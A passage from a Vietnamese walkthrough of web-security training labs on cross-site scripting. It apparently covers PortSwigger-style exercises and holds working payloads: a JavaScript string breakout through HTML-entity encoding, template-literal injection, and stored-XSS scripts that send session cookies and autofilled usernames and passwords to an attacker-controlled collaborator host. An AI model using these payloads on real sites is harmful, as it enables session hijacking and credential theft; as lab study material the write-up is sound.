Hàm `track` này có tác dụng là chuyển hướng người dùng khi người dùng thao tác click chuột vào tên của author:
```JS
var tracker={track(){}};
tracker.track('input_user');
```

Phần _input_ của _user_ được truyền thẳng vào phần trong của _onclick_
--> Ý tưởng là phá vỡ cấu trúc của lệnh _JS_ rồi chèn hàm của mình vào

Phá vỡ cấu trúc bằng payload:
`https://example.com'); alert(1);//`
- Sau URL website của author thì thêm `');` vào để có thể kết thúc sớm hàm cho sẵn của web
- Sau đó sẽ thêm hàm `alert(1);` của ta vào
- Rồi comment những kí tự còn thừa bằng dấu `//`

Khi đó script xử lí của web sẽ là:
```JS
var tracker={track(){}};
tracker.track('https://example.com'); alert(1);//');
```



Sau khi gửi payload có thể thấy rằng web thực ra đã escape dấu `'` của payload thành kí tự bình thường--> Không thể phá vỡ được cấu trúc của lệnh

Nhưng vì lệnh JS trên được chứa trong cặp dấu `"` của thuộc tính _onclick_ --> có thể lợi dụng việc encode dấu `'` thành thực thể có sẵn trong `HTML` là `&apos;` --> Sau đó web sẽ không filter được `&apos;` --> Sau khi thực thể được đi vào --> Nó sẽ được decode trở lại thành dấu `'` 



Sử dụng payload trên nhưng phải encode URL ra `website%3dhttp%3a//example.com%3f%26apos%3b-alert(1)-%26apos%3b` thì server mới hiểu được


Khi ấn vào tên tác giả thì có hiện popup rồi mới chuyển sang website của author


Khi xem DOM thì nó đã trở thành 
```JS
tracker.track('http://example.com?'-alert(1)-'');
```
--> Điều này đã khiến hàm `alert` được thực thi

## Lab 11: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped


__Reflected XSS vào một template literal khi dấu ngoặc nhọn, dấu ngoặc đơn, dấu ngoặc kép, dấu gạch chéo ngược và dấu backtick đều bị mã hóa Unicode__




Khi tìm từ khóa `hello` thì có một đoạn _JS_ dùng để tạo _template_ và render chuỗi `0 resuilt...` ra mà hình\
Đoạn mã này sử dùng dấu `backstick` để tạo _template_ rồi dùng `innerHTML` để render ra màn hình\
Vì dữ liệu ta có thẻ kiểm soát nằm trong _template_ --> Có thể dùng `${}` để định nghĩa biểu thức chứa _JS_ thực thi



Với payload `${alert()}` thì hàm `alert` đã được thực th

## Lab 12: Exploiting cross-site scripting to steal cookies

__Khai thác cross-site scripting để đánh cắp cookie__



Lab yêu cầu đánh cắp cookie của người dùng đọc bình luận


Ban đầu thử post một comment payload: `<script>alert(1)</script>` thì thấy  web bị XSS

Bây giờ phải lấy được _cookie_ của người dùng xem comment\
--> Dùng _Burp Collaborator_ để lấy một atacker domain\
--> Dùng JS để truy vấn lên domain đó rồi thông qua đó trích xuất được cookie thông qua truy vấn đó\
--> Trong _JS_ có hàm `fetch` có thể gửi truy vấn đi đến URL chỉ định


Gửi payload với tham số\
`comment=<script>fetch('https://7iqi72tnkvtb2ughtys2gh55ewkn8ew3.oastify.com?cookie='+document.cookie)</script>`



Khi sang _Burp Collaborator_ thì thấy có truy vấn đến domain\
Có `session=3lrpvkiM99qu7nINI4P8VEi5kuq5cML7`

Đây chính là _cookie session_ mình lấy được từ XSS


Dùng _cookie_ đó để đăng nhập

## Lab 13: Exploiting cross-site scripting to capture passwords




Lab yêu cầu khai thác lỗ hổng XSS để có thể đánh cắp tài khoản mật khẩu của người dùng, sau đó đăng nhập vào để có thể solve



Gửi một bình luận có payload XSS



Vào lại trang thì có popup alert\
--> Xác nhận rằng web có tồn tại `Stored XSS`

Đề nói rằng có chức năng tự động điền `username/password` \
Thử tạo một form có ô `input` rồi gửi request về server của mình



Sau khi gửi bình luận lên, những tài khoản nào vào đọc bình luận thì đã thực hiện lệnh JS để truy vấn đến tên miền của mình

--> Bây giờ cần trích xuất `username/password`



```HTML
<input name=username id=username>
<input name=password id=password onchange="fetch('https://kbz2lwiift331yvfmosvdwdziqohc90y.oastify.com', {method:'POST', body:this.value}); alert('success')">
```

Sử dụng payload này để gửi request đến server của mình, trong đó body chính là password của người dùng



Sau khi gửi comment lên thì xuất hiện form điền tài khoản mật khẩu\
Thử điền vào



Sau khi điền xong, trình duyệt hiện popup của hàm `alert` ta đã tạo



Khi sang _Burp Collaborator_ thấy có một truy vấn đến server và body của nó là mật khẩu của người dùng

--> Thêm vào code để có thể lấy được cả _username/password_ của người dùng gửi về _server_

```HTML
<input name=username id=username>
<input name=password id=password onchange="fetch('https://kbz2lwiift331yvfmosvdwdziqohc90y.oastify.com', {method:'POST', body:username.value+':'+this.value}); alert('success')">
```



Khi gửi lên thì server đã nhận được cả _username_ và _password_ của `administrator`



## Lab 14: Exploiting XSS to bypass CSRF defenses



__Khai thác XSS để vượt qua cơ chế phòng chống CSRF__

Lab yêu cầu lấy được mã CSRF của nạn nhân rồi đổi email của người đó



Khi vào gửi bình luận có payload XSS thì có popup nổi lên\
--> Xác nhận có XSS

